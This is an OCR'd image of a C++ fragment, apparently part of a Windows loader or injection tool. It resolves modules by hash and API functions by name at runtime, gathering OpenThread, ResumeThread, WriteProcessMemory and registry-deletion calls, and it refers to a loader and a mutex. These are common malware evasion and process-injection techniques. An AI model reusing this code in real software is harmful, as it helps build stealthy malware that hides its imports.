 ```cpp
    memcpyFunc = (memcpyType)GetSymbolAddress(msvcrtdll, (LPCSTR)memcpyName);
    freeFunc = (freeType)GetSymbolAddress(msvcrtdll, (LPCSTR)freeName);
#ifdef _DEBUG
    printfFunc = (printfType)GetSymbolAddress(msvcrtdll, (LPCSTR)printfName);
#endif

#ifdef _DEBUG
    printfFunc("Located msvcrt `malloc` at 0x%llx\n", (ULONG64)mallocFunc);
    printfFunc("Located msvcrt `memset` at 0x%llx\n", (ULONG64)memsetFunc);
    printfFunc("Located msvcrt `free` at 0x%llx\n", (ULONG64)freeFunc);
#endif

#ifdef _DEBUG
    printfFunc("Located Kernel32 `LoadLibrary` at 0x%llx\n", (ULONG64)LoadLibraryFunc);
    printfFunc("Located Kernel32 `OpenThread` at 0x%llx\n", (ULONG64)OpenThreadFunc);
    printfFunc("Located Kernel32 `ResumeThread` at 0x%llx\n", (ULONG64)ResumeThreadFunc);
    printfFunc("Located Kernel32 `Sleep` at 0x%llx\n", (ULONG64)SleepFunc);
#ifdef WPM
    printfFunc("Located Kernel32 `WriteProcessMemory` at 0x%llx\n", (ULONG64)WriteProcessMemoryFunc);
#endif

#endif

    // advapi32.dll exports

#ifdef _DEBUG
    printfFunc("Locating ADVAPI32 functions\n");
#endif
    advapi32dll = (HMODULE)GetModule(ADVAPI32DLL_HASH);
#ifdef _DEBUG
    printfFunc("ADVAPI32 handle: %u\n", (int)advapi32dll);
#endif

    if (0 == (int)advapi32dll) {
#ifdef _DEBUG
        printfFunc("Failed to find Advapi32 handle: %u\n", (int)advapi32dll);
#endif
        advapi32dll = LoadLibraryFunc((LPCWSTR)advapi32dllName);
#ifdef _DEBUG
        printfFunc("Advapi32 handle: %u\n", (int)advapi32dll);
#endif
    }
    RegOpenKeyFunc = (RegOpenKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegOpenKeyName);
    RegDeleteKeyFunc = (RegDeleteKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegDeleteKeyName);
    RegGetValueFunc = (RegGetValueType)GetSymbolAddress(advapi32dll, (LPCSTR)RegGetValueName);
    RegCloseKeyFunc = (RegCloseKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegCloseKeyName);

#ifdef _DEBUG
    printfFunc("Located Advapi32 `RegOpenKey` at 0x%llx\n", (ULONG64)RegOpenKeyFunc);
    printfFunc("Located Advapi32 `RegDeleteKey` at 0x%llx\n", (ULONG64)RegDeleteKeyFunc);
    printfFunc("Located Advapi32 `RegGetValue` at 0x%llx\n", (ULONG64)RegGetValueFunc);
#endif


#ifdef DEBUG_SLEEP
    // Sync sleep
    SleepFunc(SHORT_SLEEP);
#endif // !DEBUG_SLEEP


    // The mutex should be open now if we passed through the loader, otherwise, we should not execute this
```